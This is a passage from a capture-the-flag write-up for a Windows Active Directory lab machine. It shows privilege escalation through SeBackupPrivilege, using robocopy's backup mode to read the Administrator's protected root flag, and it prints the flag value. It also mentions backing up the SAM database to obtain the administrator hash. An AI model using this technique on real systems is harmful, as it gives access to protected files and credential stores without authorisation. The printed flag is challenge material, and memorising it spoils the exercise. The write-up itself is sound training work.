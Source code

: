 we can abuse this privilege to backup the SAM Database and grab the administrator hash, wich is cool.
But it can be done easier. we can just backup the root flag and read this file.

let's show you first
```powershell
# Prove that I am Emily
C:\Users\emily.oscars.CICADA\Documents> whoami
cicada\emily.oscars

#go to administrators profile
C:\Users\emily.oscars.CICADA\Documents> cd ../../Administrator/Desktop

#try to read the root file
C:\Users\Administrator\Desktop> ls


    Directory: C:\Users\Administrator\Desktop


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-ar---          1/3/2025  10:02 AM             34 root.txt


*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
Access to the path 'C:\Users\Administrator\Desktop\root.txt' is denied.
At line:1 char:1
+ type root.txt
+ ~~~~~~~~~~~~~
    + CategoryInfo          : PermissionDenied: (C:\Users\Administrator\Desktop\root.txt:String) [Get-Content], UnauthorizedAccessException
    + FullyQualifiedErrorId : GetContentReaderUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetContentCommand
```

## Abuse the backup privilege

First I will make a temp directory
```powershell
cd /
C:\> mkdir Temp
```

Then I use robocopy with flag `/b` to enable the backup feature and backup the root flag
```
robocopy /b C:\Users\Administrator\Desktop C:\Temp root.txt
```

and now I can read out this backup root flag
```powershell
PS C:\> type C:\Temp\root.txt
1d1bc7246e2b6e329cc5a5e002d78429
```

why? because as Emily, I own this backup file.

Rooted.

#windows
#AD
#RID-Bruteforce
#SeBackupPrivilege
#anonymoussessions
#netexec
#smbclient
#rpcclient
